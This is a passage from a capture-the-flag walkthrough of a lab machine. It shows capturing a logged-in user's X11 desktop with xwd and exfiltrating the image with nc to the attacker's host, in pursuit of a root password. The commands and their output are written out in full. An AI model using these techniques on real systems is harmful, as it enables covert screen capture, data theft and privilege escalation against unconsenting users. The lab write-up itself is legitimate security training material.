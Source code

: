 #### Take Screenshot

I can take a screenshot of that desktop using `xwd`:



    alex@squashed:/home/alex$ XAUTHORITY=/tmp/.Xauthority xwd -root -screen -silent -display :0 > /tmp/0xdf.xwd



The full syntax is from [the HackTricks
page](https://book.hacktricks.xyz/network-services-pentesting/6000-pentesting-x11#screenshots-capturing),
but the options are:

-   `-root` - select the main root window, not requiring me to select a
    sub-window with the mouse (which would be impossible with a remote
    shell)
-   `-screen` - makes sure the GetImage request goes to the root window
-   `-silent` - silence the typical bells that come with a screenshot
-   `display :0` - specifies the window to connect to

The resulting file is X Window Dump image data:



    alex@squashed:/home/alex$ file /tmp/0xdf.xwd
    /tmp/0xdf.xwd: XWD X Window Dump image data, "xwdump", 800x600x24



### Get Root Password

#### Exfil Screenshot

I'll start `nc` listening on my VM on port 9009 piping output to
`screenshot.wxd` with the command `nc -lnvp 9009 > screenshot.wxd`. Then
on Squashed, I'll cat the file and pipe it into `nc` connecting to that
port:



    alex@squashed:/home/alex$ cat /tmp/0xdf.xwd | nc 10.10.14.6 9009
    ^C



It just hangs, so after a few seconds I'll Ctrl-c to kill it. At my
system, there's now a file:



    oxdf@hacky$ nc -lnvp 9009 > screenshot.xwd
    Listening on 0.0.0.0 9009
    Connection received on 10.10.11.191 36294
    oxdf@hacky$ file screenshot.xwd
    screenshot.xwd: XWD X Window Dump image data, "xwdump", 800x600x24



It's always a good idea to check the hash of both files to make sure
they are the same:
